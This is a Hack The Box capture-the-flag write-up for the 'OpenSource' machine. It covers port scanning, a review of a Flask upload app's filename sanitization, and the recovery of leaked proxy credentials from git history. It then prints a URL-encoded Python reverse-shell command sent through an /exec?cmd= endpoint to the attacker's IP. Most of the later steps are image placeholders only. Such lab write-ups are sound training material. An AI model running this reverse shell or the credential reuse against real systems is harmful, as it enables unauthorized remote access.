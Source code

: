 # OpenSource

**Date**: 24/05/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/OpenSource](https://app.hackthebox.com/machines/OpenSource)

***

Let’s start with a ping

<figure><img src="../../.gitbook/assets/opensource0.png" alt=""><figcaption></figcaption></figure>

`ttl=63` so we are probably facing a Linux machine.

Let’s do a nmap port scan:

<figure><img src="../../.gitbook/assets/opensource1.png" alt=""><figcaption></figcaption></figure>

The TCP ports 22 and 80 are open, ssh and http, and there is a port (3000) that appears as filtered. Let’s do a detailed scan to try to obtain the services and their versions:

<figure><img src="../../.gitbook/assets/opensource2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource3.png" alt=""><figcaption></figcaption></figure>

While the previous scan was taking place (it took around 2 minutes) I launched a whatweb scan to scan the website hosted in the port 80:

<figure><img src="../../.gitbook/assets/opensource4.png" alt=""><figcaption></figcaption></figure>

The OpenSSH build version is `7.6p1 Ubuntu 4ubuntu0.7`

<figure><img src="../../.gitbook/assets/opensource5.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be an Ubuntu Bionic.

The web server is something called Werkzeug… let’s investigate about it:

[https://werkzeug.palletsprojects.com/en/2.1.x/](https://werkzeug.palletsprojects.com/en/2.1.x/)

<figure><img src="../../.gitbook/assets/opensource6.png" alt=""><figcaption></figcaption></figure>

> WSGI is the Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request.

Let’s see how it looks in the web-browser:

<figure><img src="../../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>

Every link redirects to # except the buttons Download and Take me there:

<figure><img src="../../.gitbook/assets/opensource8.png" alt=""><figcaption></figcaption></figure>

Let’s click on Download first:

<figure><img src="../../.gitbook/assets/opensource9.png" alt=""><figcaption></figcaption></figure>

It starts the download of a compressed file that contains what it seems to be the source code of the upcloud software.

Now, let’s click on the button Take me there!:

<figure><img src="../../.gitbook/assets/imagen (2) (1).png" alt=""><figcaption></figcaption></figure>

Let’s upload something:

<figure><img src="../../.gitbook/assets/opensource11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource12.png" alt=""><figcaption></figcaption></figure>

Sooo… it uploaded the file to the target server and then shows you the url to view the file. Nice. It will not be that easy, but let’s try to upload a php-reverse-shell.php…

<figure><img src="../../.gitbook/assets/opensource13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource14.png" alt=""><figcaption></figcaption></figure>

Hahahaha no, instead of interpret the php file it send it to us for download.

At this point, we have the source code of the application, so let’s try to see how it works and if there is any vulnerability we can exploit:

<figure><img src="../../.gitbook/assets/opensource15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource16.png" alt=""><figcaption></figcaption></figure>

[Utils.py](http://utils.py) code contains interesting stuff. There are several functions that try to sanitize the filename of the file we will try to upload.

```python
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

The function `recursive_replace` is self-explained. It takes 3 arguments:

* `search`: String that will be sanitized
* `replace_me` : String that will be replaced
* `with_me` : String that will replace the previous one

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

The function `get_file_name` gets the input `unsafe_filename` and replaces every `../` with nothing using the `recursive_replace` function.

```python
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
```

This function gets the input `unsafe_filename` and does 2 things.

1. It splits the input using the most right `.` character
2. Then it sanitizes the filename (but not the extension) and concatenate both including between a string representing the current milliseconds)

```python
"""
TODO: get unique filename
"""
```

There is a comment about a feature that has not been developed yet. Maybe we can use this later… Maybe we can cause something if we try to upload 2 files with the same filename?

<figure><img src="../../.gitbook/assets/opensource17.png" alt=""><figcaption></figcaption></figure>

The views.py file has functions related to the file upload process:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```

Ok, if we could name our file something like “../../../../../etc/passwd” the render template should return the passwd file due to directory traversal vulnerability. But the file name is being sanitized, replacing the “../” recursively with a blank string. Maybe we can find other string which can do the same function as “../../../../” (I don’t really know if it exists).

But first, let’s see what happens when we try to upload the same file twice (due to the TODO task), so we will upload the same file again, but changing it’s content. Previously the content of text.txt was “Hello world”, this time will be “Test”.

<figure><img src="../../.gitbook/assets/opensource18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource19.png" alt=""><figcaption></figcaption></figure>

Interesting, the upload overwrites the previous file.

Ok, let’s use Burpsuite to try to manipulate the upload. I intercepted an Upload request and send it to the repeater:

<figure><img src="../../.gitbook/assets/opensource20.png" alt=""><figcaption></figcaption></figure>

It didn’t work well…

After MANY hours trying to bypass the sanitization of the recursive replacement function in get\_name… I started from other aproach:

If we list all files we downloaded:

<figure><img src="../../.gitbook/assets/opensource21.png" alt=""><figcaption></figcaption></figure>

We can see the .git folder, which indicates us that is a git repository. Let’s enumerate it!

First, let’s see if there are several branches:

<figure><img src="../../.gitbook/assets/opensource22.png" alt=""><figcaption></figcaption></figure>

Yep, we are in the public branch, but there is another one called dev, so we switched to it. Let’s read the logs:

<figure><img src="../../.gitbook/assets/opensource23.png" alt=""><figcaption></figcaption></figure>

There are some commits. Let’s see the difference between them:

<figure><img src="../../.gitbook/assets/opensource24.png" alt=""><figcaption></figcaption></figure>

Between the “ease testing” and “added gitignore”, there is nothing interesting.

<figure><img src="../../.gitbook/assets/opensource25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource26.png" alt=""><figcaption></figcaption></figure>

But, between “ease testing” and “updated” there is a strange url with something that looks like credentials in a file called “settings.json” inside the .vscode folder.

```python
"python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
```

Let’s

<figure><img src="../../.gitbook/assets/opensource27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource28.png" alt=""><figcaption></figcaption></figure>

`http://10.10.11.164/exec?cmd=ping%20-c%201%2010.10.14.198`

<figure><img src="../../.gitbook/assets/opensource29.png" alt=""><figcaption></figcaption></figure>

`10.10.11.164/exec?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.198%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fsh%22%2C%22-i%22])%3B%27%0A`

<figure><img src="../../.gitbook/assets/opensource30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource31.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource32.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource38.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource39.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource41.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (9) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (8) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (11) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (12) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource49.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource53.png" alt=""><figcaption></figcaption></figure>

psp

<figure><img src="../../.gitbook/assets/opensource54.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource55.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource56.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource57.png" alt=""><figcaption></figcaption></figure>
